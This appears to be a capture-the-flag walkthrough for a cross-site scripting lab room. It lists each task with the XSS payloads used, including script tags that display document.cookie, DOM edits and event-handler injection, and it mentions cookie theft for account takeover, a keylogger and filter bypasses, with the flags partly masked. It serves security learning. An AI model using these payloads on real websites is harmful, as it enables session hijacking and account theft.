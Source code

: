 # Cross-site Scripting

- Read the introduction.

	  no answer needed

- Deploy the machine and navigate to http://<TARGET_IP>

	  no answer needed

- The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.

	  no answer needed

- Add a comment and see if you can insert some of your own HTML.

	- `<p>comment</p>`
	- `HTML_****`

- Create an alert popup box appear on the page with your document cookies.

	- `<script>alert(document.cookie)</script>`
	- `W3LL_***********`

- Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.

	- ` <script>document.getElementById('thm-title').innerHTML="I am a hacker"</script>`
	- `websites****************************`

- Take over Jack's account by stealing his cookie, what was his cookie value?

	- `s%3Aat0YY*******************************************************`

- Post a comment as Jack.

	- `c00k***********`

- Craft a reflected XSS payload that will cause a popup saying "Hello"

	- `<script>alert("Hello")</script>`
	- `There**************************`

- Craft a reflected XSS payload that will cause a popup with your machines IP address.

	- `<script>alert(window.location.hostname)</script>`
	- `Ref***************`

- Look at the deployed machines DOM-Based XSS page source code, and figure out a way to exploit it by executing an alert with your cookies.

	- `test ' onmouseover="alert(document.cookie)"`
	- `Br******************`

- Create an onhover event on an image tag, that change the background color of the website to red.

	- `test " onhover="document.body.style.backgroundColor='red'`
	- `Jav**************`

- Understand the basic proof of concept script.

	  no answer needed

- Create your own version of an XSS keylogger and see it appear in the logs part of the site.

	  no answer needed

- Bypass the filter that removes any script tags.

	- `3c3cf****************************`

- The word alert is filtered, bypass it.

	- The same but with `confirm`.
	- `a2e5e*****************************`

- The word hello is filtered, bypass it.

	- The same but with payload `Hi :)`.
	- `decb*****************************`

- Filtered in challenge 4 is as follows...

	- `2482d2****************************`

- Download and experiment with BeEF with the XSS playground.

	  no answer needed

- Take a look at XSS-Payloads.com, download one interesting looking payload and use it on the XSS playground.

	  no answer needed
